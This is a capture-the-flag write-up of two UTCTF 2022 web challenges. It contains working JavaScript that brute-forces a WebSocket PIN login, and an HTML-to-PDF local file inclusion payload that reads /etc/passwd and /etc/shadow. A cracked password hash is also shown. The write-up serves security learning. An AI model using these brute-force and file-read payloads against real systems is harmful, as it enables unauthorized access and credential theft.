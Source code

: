 # UTCTF 2022 - Web 
## 1- Websockets? 
<center><img src="../images/websockets_chall.png"></img></center>

#### about : 
- Type: Web 
- Level: easy 
- Website : http://web1.utctf.live:8651
</br>

in login page **/internale/login** i found this code js for login : 
```js
document.querySelector("input[type=submit]").addEventListener("click", checkPassword);

function checkPassword(evt) {
	evt.preventDefault();
	const socket = new WebSocket("ws://" + window.location.host + "/internal/ws")
	socket.addEventListener('message', (event) => {
		if (event.data == "begin") {
			socket.send("begin");
			socket.send("user " + document.querySelector("input[name=username]").value)
			socket.send("pass " + document.querySelector("input[name=password]").value)
		} else if (event.data == "baduser") {
			document.querySelector(".error").innerHTML = "Unknown user";
			socket.close()
		} else if (event.data == "badpass") {
			document.querySelector(".error").innerHTML = "Incorrect PIN";
			socket.close()
		} else if (event.data.startsWith("session ")) {
			document.cookie = "flask-session=" + event.data.replace("session ", "") + ";";
			socket.send("goodbye")
			socket.close()
			window.location = "/internal/user";
		} else {
			document.querySelector(".error").innerHTML = "Unknown error";
			socket.close()
		} 
	})
}
```
and a comment in the source code 
```html
<!-- what is this garbage, you ask? Well, most of our pins are now 16 digits, but we still have some old 3-digit pins left because tom is a moron and can't remember jack -->
```
so i tried a bruteforce on 3 digits in the user admin : 
here is the code (same code just tweaks on console)
```js
function get_pwd(){
    for (let i = 0 ; i < 10  ; i++) {
    for (let j = 0 ; j < 10  ; j++) {
    for (let k = 0 ; k < 10  ; k++) {
    const socket = new WebSocket("ws://" + "web1.utctf.live:8651" + "/internal/ws")
    socket.addEventListener('message', (event) => {
        let pss = i.toString() + k.toString() + j.toString();
        if (event.data == "begin") {
            socket.send("begin");
            socket.send("user " + "admin")
            socket.send("pass " + pss);
        } else if (event.data == "baduser") {
            console.log("Bad user : " + "admin")
            socket.close()
        } else if (event.data == "badpass") {
            console.log("Trying : " + pss);
            socket.close()
        } else if (event.data.startsWith("session ")) {
            console.log("found : " + pss);
            return  True;
        } else {
            console.log("Some error")
            socket.close()
        } 
    })
}}}
}
```
result : 

found : **907** 

so i loged in and got the flag : **utflag{w3bsock3ts}**

## 2- HTML2PDF
<center><img src="../images/html2pdf_chall.png"></img></center>

#### about : 
- Type: Web 
- Level: meduim 
- Website : http://web2.utctf.live:9854

The page gets inputs and convert it from HTML to PDF
<center><img src="../images/html2pdf_page.png"></img></center>

so i need to get local file inclusion inside the html so it can return it after the pdf is created i tried : 
```html
<h1 id='test2'>a</h1>
<script>x = new XMLHttpRequest();
x.open('GET','file:///etc/passwd',false);
x.send();
document.getElementById('test2').innerHTML= x.responseText;
</script>
```
basically what this do is fetch the file (internal) using javascript XMLHttpRequest class to get content before convert the page to pdf 

it worked. so now we have a basic LFI , so i checked what privileges do i have , so i tried **/etc/shadow** and it worked , Nice 

<center><img src="../images/html2pdf_shadow.png"></img></center>

So , that WeakPasswordAdmin reveals itself , let's bruteforce with hashcat , i got 

```
$1$Rj9G/TPc$e5k/QAhlagK6pxGyfQNJ5.:sunshine
```
i loged in and got the flag : **utflag{b1g_r3d_t3am_m0v35_0ut_h3r3}**